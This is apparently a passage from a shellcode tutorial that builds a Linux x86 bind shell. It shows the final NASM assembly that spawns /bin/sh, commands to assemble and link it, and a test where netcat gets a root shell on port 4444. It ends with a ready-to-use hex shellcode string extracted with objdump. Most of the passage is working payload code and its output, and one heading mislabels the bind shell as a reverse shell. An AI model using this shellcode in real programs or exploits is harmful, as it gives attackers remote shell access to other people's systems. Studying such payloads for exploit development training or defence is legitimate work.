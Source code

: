 ```nasm
jns dup2Loop   ; Jump back to the dup2Loop Procedure until ECX equals 0.

; 7. Spawn a "/bin/sh" shell for the client, in the connected session. 
; execve("/bin//sh", NULL, NULL);
;  EAX      EBX       ECX   EDX
push edx         ; Push NULL to terminate the string.
push 0x68732f2f	 ; "hs//" - Needs to be 4 bytes to fit on stack properly
push 0x6e69622f  ; "nib/" - This is "/bin//sh" backwards.
mov ebx, esp     ; point ebx to stack where /bin//sh +\x00 is located
mov ecx, edx     ; NULL
mov al, 0xb      ; execve System Call Number - 11
int 0x80         ; execute execve with system call interrupt
```

## Compiling & Testing the Assembly Shellcode
### Compiling the Shellcode
```console
nasm -f elf32 bindShell.asm -o bindShell.o
ld bindShell.o -o bindShell
```

### Testing the reverse shell program
#### Terminal Window 1
```console
./bindShell
```
#### Terminal Window 2
```console
root# netstat -tnalp | grep 4444
tcp     0    0 0.0.0.0:4444     0.0.0.0:*   LISTEN   7760/bindShell
root# nc.traditional 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
Great! Now we know our Assembly bind shell works.  
The next step is to see if the shellcode works while inside a host program.  

### Extracting the Shellcode Hex from the compiled binary
```nasm
root# objdump -d bindShell | grep '[0-9a-f]:' | \
> grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | \
> tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
> sed 's/ /\\x/g' | paste -d '' -s | \
>  sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89"
"\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xd2\x52"
"\x66\x68\x11\x5c\x66\x53\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89"
"\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0\x31\xc9\xb1\x02\xb0\x3f"
"\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"
```

